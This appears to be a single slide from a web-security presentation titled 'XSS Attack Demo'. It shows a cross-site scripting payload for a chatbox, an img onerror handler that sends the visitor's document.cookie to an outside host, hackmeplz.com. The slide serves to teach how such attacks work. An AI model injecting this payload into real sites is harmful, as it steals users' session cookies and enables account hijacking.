

# XSS Attack Demo
So what if I put this in the chatbox..
<img src=x onerror="document.body.appendChild(function(){var a = document.createElement('img');
a.src='https://hackmeplz.com/yourCookies.png/?cookies=’
+document.cookie;return a}())"